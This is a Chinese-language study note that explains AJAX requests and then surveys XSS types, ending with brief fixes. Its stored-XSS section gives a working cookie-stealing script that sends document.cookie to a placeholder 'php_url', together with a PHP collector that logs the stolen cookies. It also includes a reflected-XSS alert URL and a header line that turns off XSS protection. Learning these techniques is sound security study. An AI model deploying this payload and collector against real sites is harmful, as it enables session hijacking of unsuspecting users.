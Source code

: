## 6. XSS & ajax
#XSS #ajax
- AJAX = 异步 JavaScript 和 XML。

- AJAX 是一种用于创建快速动态网页的技术。

- 通过在后台与服务器进行少量数据交换，AJAX 可以使网页实现异步更新。这意味着可以在不重新加载整个网页的情况下，对网页的某部分进行更新。

创建实例

```javascript
var xmlhttp;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari 新版浏览器
  xmlhttp=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5 旧版浏览器
  xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
  }
```

发送请求

```javascript
xmlhttp.open("GET","test1.txt",true);
xmlhttp.send();
```

| 方法                         | 描述                                                         |
| ---------------------------- | ------------------------------------------------------------ |
| open(*method*,*url*,*async*) | 规定请求的类型、URL 以及是否异步处理请求。  *method*：请求的类型；GET 或 POST *url*：文件在服务器上的位置 *async*：true（异步）或 false（同步） |
| send(*string*)               | 将请求发送到服务器。*string*：仅用于 POST 请求               |

与 POST 相比，GET 更简单也更快，并且在大部分情况下都能用。

然而，在以下情况中，请使用 POST 请求：

- 无法使用缓存文件（更新服务器上的文件或数据库）
- 向服务器发送大量数据（POST 没有数据量限制）
- 发送包含未知字符的用户输入时，POST 比 GET 更稳定也更可靠

获得响应

| 属性         | 描述                       |
| ------------ | -------------------------- |
| responseText | 获得字符串形式的响应数据。 |
| responseXML  | 获得 XML 形式的响应数据。  |

```javascript
document.getElementById("myDiv").innerHTML=xmlhttp.responseText;

xmlDoc=xmlhttp.responseXML;
txt="";
x=xmlDoc.getElementsByTagName("ARTIST");
for (i=0;i<x.length;i++)
  {
  txt=txt + x[i].childNodes[0].nodeValue + "<br />";
  }
document.getElementById("myDiv").innerHTML=txt;
```

```xml
<!-- book.xml -->
<bookstore>
<book category="children">
<title lang="en">Harry Potter</title>
<author>J K. Rowling</author>
<year>2005</year>
<price>29.99</price>
</book>
<book category="cooking">
<title lang="en">Everyday Italian</title>
<author>Giada De Laurentiis</author>
<year>2005</year>
<price>30.00</price>
</book>
<book category="web" cover="paperback">
<title lang="en">Learning XML</title>
<author>Erik T. Ray</author>
<year>2003</year>
<price>39.95</price>
</book>
<book category="web">
<title lang="en">XQuery Kick Start</title>
<author>James McGovern</author>
<author>Per Bothner</author>
<author>Kurt Cagle</author>
<author>James Linn</author>
<author>Vaidyanathan Nagarajan</author>
<year>2003</year>
<price>49.99</price>
</book>
</bookstore>
```

onreadyststechange 事件

当请求被发送到服务器时，我们需要执行一些基于响应的任务。

每当 readyState 改变时，就会触发 onreadystatechange 事件。

readyState 属性存有 XMLHttpRequest 的状态信息。

下面是 XMLHttpRequest 对象的三个重要的属性：

| 属性               | 描述                                                         |
| ------------------ | ------------------------------------------------------------ |
| onreadystatechange | 存储函数（或函数名），每当 readyState 属性改变时，就会调用该函数。 |
| readyState         | 存有 XMLHttpRequest 的状态。从 0 到 4 发生变化。  0: 请求未初始化 1: 服务器连接已建立 2: 请求已接收 3: 请求处理中 4: 请求已完成，且响应已就绪 |
| status             | 200: "OK"404: 未找到页面                                     |

```javascript
xmlhttp.onreadystatechange=function()
  {
  if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
    document.getElementById("myDiv").innerHTML=xmlhttp.responseText;//myDiv是divID
    }
  }
```

==onreadystatechange 事件被触发 5 次（0 - 4），对应着 readyState 的每个变化。==

### 6.1 存储型XSS

把攻击者的数据存储在服务器端，攻击行为将伴随着攻击数据一直存在

提交js攻击代码 存储到数据库然后输出

```html
<script src="js_url"></script>
```

```javascript
<script>
document.write('<img src="php_url?cookie='+document.cookie+'"width=0 height=0 />');
</script>
```

```php
<?php
$cookie = $_GET['cookie'];
$ip = getenv ('REMOTE_ADDR');
$time = date('Y-m-d g:i:s');
$fp = fopen("cookie.txt","a");
fwrite($fp,"IP: ".$ip."Date: ".$time." Cookie:".$cookie."\n");
fclose($fp);
?>  
```

### 6.2 反射型XSS

非持久性xss攻击仅对当此页面访问产生影响

包含在url中,诱导用户点击

```url
https://wahh-app.com/error.php?message=<script>alert(''xss''）;</script>
```

### 6.3 dom-XSS

类比SQL注入，不经过服务器直接执行JS代码。

```html
<script> alert(1); </script>
```

### 6.4 X-XSS-Protection

浏览器的安全策略

```php
header("X-XSS-Protection:0");//禁用XSS保护
```

### 6.5 CRLF-XSS

响应头注入

### 6.6 修补XSS漏洞

1.  过滤处理

2.  转义

3.  闭合XSS

    ```php
    echo "<textarea>".$t."</textarea>"
    ```
